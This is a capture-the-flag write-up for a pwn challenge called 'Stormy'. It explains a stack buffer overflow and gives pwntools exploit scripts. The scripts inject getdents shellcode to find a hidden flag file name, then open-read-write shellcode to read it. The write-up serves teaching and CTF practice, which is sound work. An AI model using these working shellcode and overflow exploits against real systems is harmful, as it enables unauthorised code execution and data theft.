 NB : for those who got problem determining the right libc version you can just obtain it from [here](https://libc.rip/).
## Stormy: 
#### Tags: Buffer Overflow - ret2shellcode - getdents - Seccomp
a classic ret2shellcode challenge but with a little twist where you need to write a shellcode to get the real file name of the flag file using getdents syscall
##### PLAN : 
    1.Send a getdents shellcode 
    2.Send an ORW shellcode to read the flag file

>1.Send a getdents shellcode : 
```python=
from pwn import * 
context.update(arch='amd64', os='linux', log_level='debug')
p = process('./main')
elf = ELF('./main', checksec=0)
offset = 120 
buf = int(p.recvline(), 16)
print(hex(buf))
shellcode = asm(shellcraft.open('.'))
shellcode += asm(shellcraft.getdents(3, 'rsp', 0x500))
shellcode += asm(shellcraft.write(1, 'rsp', 0x500))
payload = shellcode + b"A" * (offset - len(shellcode)) + p64(buf)
p.sendline(payload)
```
after sending the first payload we can notice the flag file name 
![](https://i.imgur.com/zyxKfaF.png)

We send the last payload to get the flag 
```python=
shell = asm(shellcraft.open('real_flag_file_txt.txt'))
shell += asm(shellcraft.read(3, 'rsp', 0x100))
shell += asm(shellcraft.write(1, 'rsp', 0x100))
payload = shell + b"A" * (offset - len(shell)) + p64(buf)
```

![](https://i.imgur.com/WvHKlIc.png)

>Full exploit : 

```python=
from pwn import * 
context.update(arch='amd64', os='linux', log_level='debug')
p = process('./main')
elf = ELF('./main', checksec=0)
offset = 120 
buf = int(p.recvline(), 16)
print(hex(buf))
"""
shellcode = asm(shellcraft.open('.'))
shellcode += asm(shellcraft.getdents(3, 'rsp', 0x500))
shellcode += asm(shellcraft.write(1, 'rsp', 0x500))
payload = shellcode + b"A" * (offset - len(shellcode)) + p64(buf)
#p.sendline(payload)
"""
shell = asm(shellcraft.open('real_flag_file_txt.txt'))
shell += asm(shellcraft.read(3, 'rsp', 0x100))
shell += asm(shellcraft.write(1, 'rsp', 0x100))
payload = shell + b"A" * (offset - len(shell)) + p64(buf)

p.sendline(payload)
p.interactive()
```